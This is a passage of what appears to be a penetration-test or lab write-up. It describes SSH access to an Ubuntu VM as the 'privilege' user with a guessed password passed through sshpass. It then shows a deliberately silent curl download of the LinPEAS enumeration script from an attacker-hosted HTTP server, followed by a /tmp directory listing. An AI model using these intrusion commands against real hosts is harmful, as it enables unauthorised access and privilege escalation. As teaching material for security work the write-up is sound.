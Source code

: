 ### 🔐 Remote Shell Access via SSH

<p class="indent-paragraph">
After confirming command injection and file enumeration, a local user account named <code>privilege</code> with a valid login shell <code>(/bin/bash)</code> was identified. Common credentials were tested, ultimately allowing successful SSH authentication using the discovered password. This connection verified that the <code>privilege</code> account has remote shell access to the server, presenting a standard bash shell with no additional restrictions.
</p>

```
~$ sshpass -p Admin@962 ssh privilege@192.168.80.10
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-67-generic x86_64)

Last login: Sat Apr 19 22:44:58 2025 from <IP>
```

<p class="indent-paragraph">
After obtaining a stable shell as the <code>privilege</code> user, basic system enumeration was conducted to identify potential privilege escalation vectors, running services, misconfigurations, and sensitive files. LinPEAS, a widely used Linux post-exploitation enumeration tool, was chosen for its comprehensive checks. The tool was transferred to the target via a silent HTTP download to avoid generating on-screen output or error messages, with the <code>-s</code> option enabling silent mode and <code>2&gt;/dev/null</code> suppressing any error messages to ensure the download remained discreet.
</p>

```
~$ privilege@ubuntu-virtual-machine:/tmp$ curl -s -o linpeas.sh http://<IP>:8000/linpeas.sh 2>/dev/null

~$ privilege@ubuntu-virtual-machine:/tmp$ ll
total 932

drwxrwxrwt 22 root root    4096 Apr 26 22:48 .
drwxr-xr-x 20 root root    4096 Dec 20 08:10 ..
-rw-r--r--  1 privilege privilege       0 Jan 21 17:19 config-err-Rt6GJK
drwxr-xr-x  2 root      root    4096 Jan 21 17:06 .font-unix
drwxrwxrwt  2 privilege privilege       4096 Jan 21 17:19 .ICE-unix
-rw-r--r--  1 privilege privilege 853290 Apr 26 22:48 linpeas.sh
drwx------  2 root      root    4096 Jan 21 17:06 snap-private-tmp/
drwx------  2 privilege privilege    4096 Jan 21 17:19 ssh-lZdebRLpSqW2/
drwx------  2 root      root    4096 Jan 21 17:06 systemd-private-dafd168f87334d24b5df59ebe8bae57a7-apache2.service-3WBmph/
drwx------  2 root      root    4096 Jan 21 17:06 systemd-private-dafd168f87334d24b5df59ebe8bae57a7-colord.service-jrbf2e/
drwx------  2 root      root    4096 Jan 21 17:06 systemd-private-dafd168f87334d24b5df59ebe8bae57a7-fwpumd.service-M4u89g/
drwx------  2 root      root    4096 Jan 21 17:06 systemd-private-dafd168f87334d24b5df59ebe8bae57a7-ModemManager.service-ryXuJj/
drwx------  2 root      root    4096 Jan 21 17:06 systemd-private-dafd168f87334d24b5df59ebe8bae57a7-switcheroo-control.service-DNaKQh/
drwx------  2 root      root    4096 Jan 21 17:06 systemd-private-dafd168f87334d24b5df59ebe8bae57a7-systemd-logind.service-cZHPcj/
drwx------  2 root      root    4096 Jan 21 17:06 systemd-private-dafd168f87334d24b5df59ebe8bae57a7-systemd-resolved.service-Q8h7vg/
drwx------  2 root      root    4096 Jan 21 17:06 systemd-private-dafd168f87334d24b5df59ebe8bae57a7-systemd-timesyncd.service-cmxtvf/
drwx------  2 root      root    4096 Jan 21 17:06 systemd-private-dafd168f87334d24b5df59ebe8bae57a7-upower.service-bejEXh/
drwxrwxrwt  2 privilege privilege    4096 Apr 26 22:26 .Test-unix/
drwxr-xr-x  2 gdm       gdm     4096 Jan 21 17:06 tracker-extract-files.1001/
drwxrwxrwt  2 root      root    4096 Jan 21 17:06 vmwareDnD/
drwxr-xr-x  2 root      root    4096 Jan 21 17:06 vmware-root_669-3980232826/
-rw-r--r--  1 gdm       gdm       11 Jan 21 17:06 .X1024-lock
```